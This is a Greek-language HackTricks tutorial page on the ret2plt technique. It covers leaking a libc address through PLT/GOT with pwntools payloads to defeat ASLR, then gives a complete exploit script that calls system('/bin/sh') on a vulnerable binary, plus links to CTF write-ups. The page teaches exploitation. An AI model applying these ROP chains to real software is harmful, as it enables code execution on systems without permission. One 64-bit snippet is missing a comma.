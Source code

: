 # Ret2plt

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Ο στόχος αυτής της τεχνικής θα ήταν να **διαρρεύσει μια διεύθυνση από μια συνάρτηση από το PLT** για να μπορέσει να παρακάμψει το ASLR. Αυτό συμβαίνει επειδή, αν, για παράδειγμα, διαρρεύσετε τη διεύθυνση της συνάρτησης `puts` από τη libc, μπορείτε στη συνέχεια να **υπολογίσετε πού είναι η βάση της `libc`** και να υπολογίσετε offsets για να αποκτήσετε πρόσβαση σε άλλες συναρτήσεις όπως **`system`**.

Αυτό μπορεί να γίνει με ένα payload `pwntools` όπως ([**από εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got)):
```python
# 32-bit ret2plt
payload = flat(
b'A' * padding,
elf.plt['puts'],
elf.symbols['main'],
elf.got['puts']
)

# 64-bit
payload = flat(
b'A' * padding,
POP_RDI,
elf.got['puts']
elf.plt['puts'],
elf.symbols['main']
)
```
Σημειώστε πώς η **`puts`** (χρησιμοποιώντας τη διεύθυνση από το PLT) καλείται με τη διεύθυνση της `puts` που βρίσκεται στο GOT (Global Offset Table). Αυτό συμβαίνει επειδή μέχρι τη στιγμή που η `puts` εκτυπώνει την εγγραφή του GOT της `puts`, αυτή η **εγγραφή θα περιέχει τη ακριβή διεύθυνση της `puts` στη μνήμη**.

Επίσης, σημειώστε πώς η διεύθυνση της `main` χρησιμοποιείται στην εκμετάλλευση, έτσι ώστε όταν η `puts` ολοκληρώσει την εκτέλεσή της, το **δυαδικό αρχείο καλεί ξανά την `main` αντί να τερματίσει** (έτσι η διαρροή διεύθυνσης θα συνεχίσει να είναι έγκυρη).

{% hint style="danger" %}
Σημειώστε πώς για να λειτουργήσει αυτό, το **δυαδικό αρχείο δεν μπορεί να έχει μεταγλωττιστεί με PIE** ή πρέπει να έχετε **βρει μια διαρροή για να παρακάμψετε το PIE** προκειμένου να γνωρίζετε τη διεύθυνση του PLT, GOT και `main`. Διαφορετικά, πρέπει πρώτα να παρακάμψετε το PIE.
{% endhint %}

Μπορείτε να βρείτε ένα [**πλήρες παράδειγμα αυτής της παράκαμψης εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass). Αυτή ήταν η τελική εκμετάλλευση από αυτό το παράδειγμα:
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvline()

payload = flat(
'A' * 32,
elf.plt['puts'],
elf.sym['main'],
elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
libc.sym['exit'],
next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```
## Άλλα παραδείγματα & Αναφορές

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 bit, ενεργοποιημένο ASLR αλλά χωρίς PIE, το πρώτο βήμα είναι να γεμίσετε μια υπερχείλιση μέχρι το byte 0x00 του canary για να καλέσετε στη συνέχεια το puts και να διαρρεύσετε. Με το canary δημιουργείται ένα ROP gadget για να καλέσει το puts για να διαρρεύσει τη διεύθυνση του puts από το GOT και ένα ROP gadget για να καλέσει `system('/bin/sh')`
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 bits, ενεργοποιημένο ASLR, χωρίς canary, υπερχείλιση στο stack από μια παιδική συνάρτηση. ROP gadget για να καλέσει το puts για να διαρρεύσει τη διεύθυνση του puts από το GOT και στη συνέχεια να καλέσει ένα one gadget.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
